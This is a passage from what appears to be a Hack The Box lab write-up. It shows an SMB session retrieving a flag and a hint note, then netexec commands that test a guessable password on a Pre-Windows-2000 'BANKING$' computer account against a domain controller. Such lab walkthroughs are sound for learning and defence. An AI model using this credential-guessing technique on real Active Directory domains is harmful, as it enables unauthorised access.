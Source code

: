 I’ll download both:

```

smb: \> get user.txt 
getting file \user.txt of size 32 as user.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> get ToDo.txt 
getting file \ToDo.txt of size 248 as ToDo.txt (0.7 KiloBytes/sec) (average 0.4 KiloBytes/sec)

```

`user.txt` is the first flag:

```

oxdf@hacky$ cat user.txt
cbda362c************************

```

`ToDo.txt` is another note:

> Thomas,
>
> after convincing the finance department to get rid of their ancienct banking software
> it is finally time to clean up the mess they made. We should start with the pre created
> computer account. That one is older than me.
>
> Best
>
> James

### Pre-Windows-2000

#### Validate Password

I noted the extra computer in the domain above, and it’s named BANKING$, which matches with the note. Combining that with the hint in the note of ancient reminds of Pre-Windows 2000 computers. I exploited this in [Vintage](/2025/04/26/htb-vintage.html#analysis), and there’s a nice [TrustedSec post](https://trustedsec.com/blog/diving-into-pre-created-computer-accounts) as well. These computer accounts use their hostname, all lowercase, as their password.

Trying that here fails, but with a different error than if I have the wrong password:

```

oxdf@hacky$ netexec smb dc.retro.vl -u 'BANKING$' -p banking
SMB         10.129.234.44   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.44   445    DC               [-] retro.vl\BANKING$:banking STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT 
oxdf@hacky$ netexec smb dc.retro.vl -u 'BANKING$' -p oxdf
SMB         10.129.234.44   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.44   445    DC               [-] retro.vl\BANKING$:oxdf STATUS_LOGON_FAILURE 

```
